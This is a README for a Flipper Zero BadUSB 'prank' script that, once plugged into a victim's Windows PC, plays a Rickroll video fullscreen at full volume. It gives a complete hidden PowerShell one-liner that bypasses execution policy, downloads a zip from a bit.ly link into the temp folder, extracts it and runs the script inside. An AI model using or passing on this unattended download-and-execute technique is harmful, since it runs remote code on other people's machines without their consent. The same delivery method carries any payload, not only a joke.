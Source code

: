 # Never Gonna Give You Up in Flipper Zero - BadUSB ✅

A script used to meme your target.

**Category**: Prank

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script will meme your target.

A jumpscare video will be downloaded to their temp directory. 

When a mouse movement is detected, that video will be played in the PowerShell console at max volume and fullscreen.

## Getting Started

### Usage
YouTube video - [click here](https://youtube.com/shorts/XRY_MEYQUxA)

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'bit.ly/NeverGonnaGiveYouUpWindows' -O "$D\js.zip";Expand-Archive "$D\js.zip" -Des $D -Force;. "$D\js\js.ps1"
```
